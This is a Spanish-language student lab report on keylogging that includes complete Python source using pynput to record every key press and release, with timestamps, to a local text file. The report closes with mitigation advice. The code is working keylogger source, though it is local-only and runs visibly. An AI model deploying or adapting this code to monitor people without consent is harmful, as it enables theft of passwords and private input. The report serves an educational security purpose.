

No presiones Esc... todavía
Introducción
En esta actividad se explora el funcionamiento técnico de la captura de eventos de teclado mediante event hooks y funciones callbacks en Python. El objetivo es analizar los mecanismos de entrada de datos, su persistencia local y las implicaciones de ciberseguridad asociadas al monitoreo no autorizado de pulsaciones de teclas (keylogging).
Objetivo
Implementar y documentar un programa basado en hooks de teclado que registre cada evento de pulsación y liberación de teclas, asociándolos de manera temporal con alta precisión y almacenándolos de forma persistente en un archivo local para su posterior análisis.
Configuración del laboratorio
- Sistema Operativo: Windows 10
- Lenguaje de programación: Python
- Librerías:
pynput y datetime
Funcionamiento
El programa hace uso de la clase Listener para suscribirse a las llamadas del sistema operativo encargadas de los eventos de teclado.
Cada evento detectado activa una función de respuesta (on_press o on_release), la cual realiza tres acciones principales:
- Asociación Temporal y Secuencial: Asigna una marca de tiempo con precisión de milisegundos (
YYYY-MM-DD HH:MM:SS.mmm) y un contador incremental formateado a tres dígitos (evento_001). - Manejo de Excepciones: Diferencia entre teclas alfanuméricas estándar y teclas especiales de sistema (como
Key.escoKey.space). - Persistencia Local: Apertura continua en modo append (
"a") hacia el archivoregistrodeteclado.txt, garantizando que todos los registros permanezcan guardados tras la finalización del hilo principal mediante la teclaEsc.
Código Fuente / Script
A continuación se presenta el código desarrollado utilizando la librería pynput y el módulo datetime para la gestión de registros con timestamp:
import datetime
from pynput.keyboard import Key, Listener
LOG_FILE = "registrodeteclado.txt"
contador_eventos = 1
def formato_evento(accion, key_str):
global contador_eventos
now = datetime.datetime.now()
timestamp = now.strftime("%Y-%m-%d %H:%M:%S.%f")[:-3]
id_evento = f"evento_{contador_eventos:03d}"
contador_eventos += 1
return f"{timestamp} | {accion} | {id_evento} | Tecla: {key_str}\n"
def log_to_file(entrada):
with open(LOG_FILE, "a", encoding="utf-8") as f:
f.write(entrada)
def on_press(key):
try:
key_str = key.char
except AttributeError:
key_str = str(key)
log_entry = formato_evento("PRESS", key_str)
print(log_entry.strip())
log_to_file(log_entry)
def on_release(key):
try:
key_str = key.char
except AttributeError:
key_str = str(key)
log_entry = formato_evento("RELEASE", key_str)
print(log_entry.strip())
log_to_file(log_entry)
if key == Key.esc:
return False
if __name__ == "__main__":
with open(LOG_FILE, "a", encoding="utf-8") as f:
f.write(f"\n--- Inicio de Sesión: {datetime.datetime.now()} ---\n")
with Listener(on_press=on_press, on_release=on_release) as listener:
listener.join()Pruebas Realizadas
A continuación se presentan las evidencias del correcto funcionamiento del script y la persistencia de datos alcanzada:


registrodeteclado.txt abierto en el editor tras detener la ejecución.
Esc, finalizando la captura de eventos. Y como detecta Keys especiales.Conclusión
El desarrollo de esta actividad permitió analizar de forma práctica el funcionamiento interno de las herramientas de espionaje del tipo keylogger. Mediante el uso de ganchos de eventos (hooks) y funciones de respuesta (callbacks), es posible interceptar cualquier interacción física en el teclado de forma transparente para el usuario.
La implementación de la asociación temporal (timestamps) no solo permite reconstruir lo ingresado, sino que abre la puerta a análisis de comportamiento (como inferir patrones de tecleo o contraseñas). Como medida de mitigación, se resalta la importancia de implementar soluciones antivirus que detecten llamadas a APIs de bajo nivel, el uso de teclados virtuales dinámicos y la aplicación del principio de mínimo privilegio para prevenir la ejecución no autorizada de estos scripts.
Documentación de la práctica (PDF)
Puedes consultar el reporte completo de la práctica directamente a continuación o descargarlo en tu dispositivo: